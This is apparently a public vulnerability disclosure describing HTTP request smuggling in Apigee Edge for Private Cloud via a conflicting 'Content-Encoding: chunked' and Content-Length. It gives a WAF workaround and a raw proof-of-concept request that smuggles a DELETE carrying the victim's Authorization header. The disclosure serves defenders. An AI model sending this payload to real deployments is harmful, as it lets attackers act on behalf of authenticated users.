 # Apigee HTTP Request Smuggling
Tested on Edge for Private Cloud v4.19.01

Responsible disclosure have not led to a resolution of the problem within the 90 days.
Despite the confirmation of the vulnerability and a Google VRP bounty it was moved to "Won't fix / Intended behavior" status.
This puts multiple active deployments at risk, this entry serves as a guide on how to mitigate it (i.e. WAF filtering)

## Issue description
Apigee does not properly parse HTTP request length when both `Content-Length` and `Content-Encoding: chunked` are set by the client.
This allows to send requests larger than the assumed size, resulting in appending the overflow data to the next request in the HTTP proxy.
Through such malformed requests attacker can prepend request to the victim issued one, together with original HTTP headers (authorization).
Successful attacks might allow to take actions on behalf of authenticated users, exact impact depend on the API design and functionallity.

This attack is already well explained [here](https://portswigger.net/web-security/request-smuggling), the only difference is that Apigee vulnerability is triggered for `Content-Encoding: chunked` instead of `Transfer-Encoding: chunked`.

## Remediation

The only workaround is to block all requests with `Content-Encoding: chunked` header.
This is not a part of the original HTTP specification and will unlikely be used by any legitimate client.


## PoC - HTTP Request Smuggling

1. Attacker sends multiple requests in order to poison the API proxy:
```
POST /v1/login HTTP/1.1
Host: apigee.proxy-gateway.com
User-Agent: BurpSuite-intruder
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Encoding: chunked
Content-Length: 108

0

DELETE /v1/resources/SOMETHING_IMPORTANT HTTP/1.1
Injected-Header: attacker-controlled
Dummy-Header: 
```

2. When the legitimate client later sends a HTTP request such as:
```
GET /v1/healthcheck
User-Agent: pingchecker
Authorization: Bearer SoMeAuThToKeNhErE
Accept: application/json

```

3. Result will be the following request issued on victim behalf:
```
DELETE /v1/resources/SOMETHING_IMPORTANT HTTP/1.1
Injected-Header: attacker-controlled
Dummy-Header: GET /v1/healthcheck
User-Agent: pingchecker
Authorization: Bearer SoMeAuThToKeNhErE
Accept: application/json

```

## Limitations

- Poisoning might require an unauthenticated API endpoint which accepts POST method (usually this will be available in authentication)
- HTTP smuggling is limited to method, uri and headers only (not found any way to append request body).

